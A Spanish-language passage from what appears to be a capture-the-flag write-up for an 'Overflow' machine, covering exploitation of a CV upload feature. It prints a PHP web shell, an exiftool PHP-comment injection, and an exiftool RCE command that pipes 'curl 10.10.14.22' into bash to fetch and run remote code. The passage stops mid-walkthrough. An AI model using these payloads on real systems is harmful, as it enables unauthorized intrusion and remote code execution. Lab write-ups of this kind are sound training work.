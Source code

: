 Tenemos ahora otro panel de autenticacion, en el cual usaremos las mismas credenciales de editor para acceder

![dev panel](/assets/images/Overflow/dev_panel.png)

Una vez dentro para seguir avanzando, tenemos que ir a nuestro perfil y veremos que es posible subir un curriculum.

Ahora lo que intentaremos es subir un archivo php con el siguiente contenido:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

 No fue posible subir el archivo PHP, pero si es posible interceptar el response de la imagen cargada y veremos que se esta usando el exiftool, una manera de abusar de esta herramienta es inyectandole un comentario en php:

 ```php
exiftool -Comment="<?php system('whoami'); >" 
 ```

 Esto tampoco funciono, pero esta bien tenerlo en cuenta para siguientes ataques.
 Como sabemos la version del exiftool, podemos buscar alguna vulnerabilidad aplicable y la que usaremos <a href="https://github.com/OneSecCyber/JPEG_RCE.git">este proyecto</a> 

La forma de usarlo es:

 ```s
exiftool -config eval.config runme.jpg -eval='system("curl 10.10.14.22 | bash")'
 ```

 Ahora lo que haremos es crearnos un html con lo siguiente:
